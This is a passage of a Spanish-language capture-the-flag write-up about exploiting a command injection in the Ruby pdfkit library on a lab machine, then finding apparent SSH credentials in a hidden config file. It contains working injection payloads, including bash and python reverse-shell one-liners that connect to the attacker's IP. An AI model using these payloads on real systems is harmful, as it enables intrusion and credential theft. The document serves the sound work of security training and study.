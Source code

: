 
### Explotando pdfkit

Buscamos vulnerabilidades con searchsploit, pero no hay suerte.

~~~~bash
❯ searchsploit pdfkit
Exploits: No Results
Shellcodes: No Results
~~~~

Ahora vamos a buscar directamente en Google y... parece que ha habido suerte, el primer resultado es este enlace <https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795>

Aquí en este punto, me atraganté un poco, pues al copiar el payload introducía comandos como "id" o "whoami" pero no funcionaba, sin embargo si utilizamos el propio "sleep" del post sí funciona. De esta forma, quedaba de la siguiente manera: ```http://10.10.14.91/?name=#{'%20`sleep 5`'}```


### Reverse shell

Bien, ahora la idea sería probar con una reverse shell, así que nos vamos a <https://www.revshells.com/> y por lo que pude probar, con la clásica de bash y la de python sin problema:

~~~
http://10.10.14.91/?name=#{'%20`bash -c "/bin/bash -i >& /dev/tcp/10.10.14.91/1234 0>&1"`'}
o
http://10.10.14.91/?name=#{'%20`export RHOST="10.10.14.91";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`'}
~~~

Ya tenemos acceso. Ahora realizamos el [tratamiento de la TTY](https://kaianperez.github.io/tty/) y tras ello, si nos vamos a home y a nuestro usuario **ruby**, podemos ver una carpeta oculta: ".bundle"
Ahí tenemos un fichero llamado "config", que si lo abrimos nos da lo que parecen ser unos datos de SSH:

![](/assets/images/precious/home.png){: .align-center}
